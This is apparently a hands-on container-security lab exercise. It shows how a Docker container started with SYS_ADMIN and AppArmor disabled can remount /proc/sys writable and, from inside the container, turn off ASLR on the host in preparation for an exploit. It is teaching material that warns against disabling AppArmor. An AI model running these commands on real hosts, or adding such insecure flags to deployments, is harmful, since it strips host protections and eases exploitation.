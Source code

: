 ### Unprivileged container, with capabilities and no AppArmor

Now let's try to run a container in an unprivileged mode, but add some capabilities.  

```
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor:unconfined ubuntu
```

As we have seen from the slides, AppArmomr is configured by default and limits the access to certain dangerous paths.
Here an example of what can go wrong when you disable and uninstall AppArmor.  
(This is done temporarely for this container only - needless to say NEVER EVER DO THIS EVER!)

Try now from the container to change its hostname

```
sysctl kernel.hostname=Hacked
```

You should get an error: `sysctl: setting key "kernel.hostname": Read-only file system`

This is Docker that by default rightfully sets the `/proc` virtual filesystem to read-only.  

#### Leveraging the capabilities

Try now to remount the filesystem with RW permissions:

```
mount -o rw,remount /proc/sys
```

(We just need the /proc/sys part to be writable)

and try again:  

```
sysctl kernel.hostname=Hacked
```

Which hostname was changed ? The container one or the host one ?  
Find that out by using the `hostname` command line.  

Why is that ?  
If you recall from the slides there is a namespace called `UTS` which isolates the hostname information.

#### Not everything is namespaced

From the *HOST* check the status of the ASLR via: 

```
cat /proc/sys/kernel/randomize_va_space

0 – No randomization. Everything is static.

2 – Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.
```

Say you have a zero day exploit, but it works only when ALSR is disabled.  
Since not everything is namespaced and there are some dangerous path mounted in `/proc` we can easily do that, from the container, via  

```
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

Now check it again on the linux host:

```
cat /proc/sys/kernel/randomize_va_space
```

Yep! ASLR is disabled now!

AppArmor is really helping in this regard.  
Once more: DO NOT DISABLE IT EVER.


